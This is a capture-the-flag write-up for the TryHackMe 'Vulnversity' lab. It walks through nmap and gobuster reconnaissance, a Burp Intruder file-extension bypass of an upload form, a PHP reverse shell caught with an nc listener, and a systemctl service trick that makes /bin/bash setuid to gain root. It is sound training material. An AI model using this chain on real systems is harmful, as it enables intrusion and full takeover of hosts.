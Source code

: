 # Vulnversity - solution
- Link: https://tryhackme.com/room/vulnversity
- Difficulty: `easy`

## Host recognition
- `cd nmap`
-  `nmap --open <IP> -oG scan`
 -  `extractPorts scan` (custom command) to copy open ports
- `nmap -sCV -p21,22,139,445,3128,3333 <IP> -oN ports`

## Port 3333 (Apache http) - website recognition
- `gobuster dir -u http://<IP>:3333 -w /usr/share/wordlists/dirb/common.txt -o hidden_dir` to discover hidden directories
- Found `/internal`
- Found an input form on `http://<IP>:3333/internal`
- Tried to brute force that form with any possible file extension
- On browser:
  - Added FoxyProxy extension (`127.0.0.1:8080` as proxy)
- On Burpsuite:
  - `Proxy` -> `Intercept on`
- On browser:
  - Started FoxyProxy 
  - Uploaded a random file on the `http://<IP>:3333/internal` input form
- On Burpsuite:
  - Sent to Intruder the error message 
  - On `Intruder` window:
    - Removed all the `$` characters and added them only between `.png` (uploaded a .png file in my case)
  - On `Payload` window:
    - `Load` -> `/usr/share/seclists/Discovery/Web-Content/raft-small-extensions-lowercase.txt`
    - Unchecked `URL-encode these characters` option
    - Started the attack
    - Found `.phtml` as extension with a different response lenght, so I could exploit this vulnerability uploading a `.phtml` file 

## Exploitation
- Downloaded `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` 
- Set my own IP and a random port in that code
- Uploaded the file
- `nc -lvnp <port>` to make NetCat listen on the specified port
- Visited `http://<IP>:3333/internal/upload` and run the uploaded file (this hidden subdirectory should appear if we run `gobuster dir -u http://<IP>:3333/internal -w /usr/share/wordlists/dirb/common.txt -o hidden_dir`)
- Inside the reverse shell:
  - `ls`
  - `cd /home/bill`
  - `cat user.txt`
    - Found the `USER FLAG`
  
## Priviledges escalation
- Inside the reverse shell:
  - Cannot access `/root`, so:
  - `find / -perm -4000 2>/dev/null` to find binaries 
  - `sudo -l` to discover which binary the active user may run as superuser
  - Found `systemctl`
- Checked it on https://gtfobins.github.io and found how to exploit the binary
- On another window, modified:
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```
to
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
- Inside the reverse shell:
  - Pasted that modified code
  - Became root
  - `cd /root`
  - `cat root.txt`
    - Found the `ROOT FLAG`
